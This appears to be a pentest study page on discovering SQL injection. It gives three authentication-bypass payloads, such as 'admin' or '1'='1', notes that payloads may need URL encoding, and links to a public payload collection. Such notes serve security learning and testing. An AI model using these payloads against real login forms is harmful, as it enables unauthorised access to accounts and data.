 # SQL Injection Discovery



## SQL Injection Discovery

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<mark style="color:red;">**Note:**</mark> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.



**Examples:**

```sql
admin' or '1'='1
```

```sql
' or 1=1 in (SELECT password FROM users) -- //
```

```sql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```



You can find a comprehensive list of SQLi auth bypass payloads in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass), each of which works on a certain type of SQL queries.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}



\

